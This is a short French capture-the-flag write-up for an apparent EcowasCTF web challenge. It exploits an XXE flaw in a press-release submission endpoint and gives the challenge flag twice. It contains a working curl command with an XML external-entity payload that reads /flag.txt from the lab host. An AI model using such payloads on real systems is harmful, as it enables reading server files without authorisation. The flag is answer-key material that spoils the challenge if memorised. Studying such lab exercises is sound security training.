


# Monrovia Press Release

**Catégorie :** Web  
**Flag :** `EcowasCTF{m0nr0v14_xx3_news_l34k_2026}`

## Description

Injection XXE (XML External Entity) sur un endpoint d'envoi de communiqués de presse.

## Writeup



### Exploitation — XXE



On envoie un payload XXE pour lire le fichier `/flag.txt` :

```bash
curl -X POST http://labs.ecowasctf.com.gh:5007/submit \
     -H "Content-Type: application/xml" \
     -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///flag.txt">]><release><title>&xxe;</title><body>test</body></release>'
```

## Flag

```
EcowasCTF{m0nr0v14_xx3_news_l34k_2026}
```
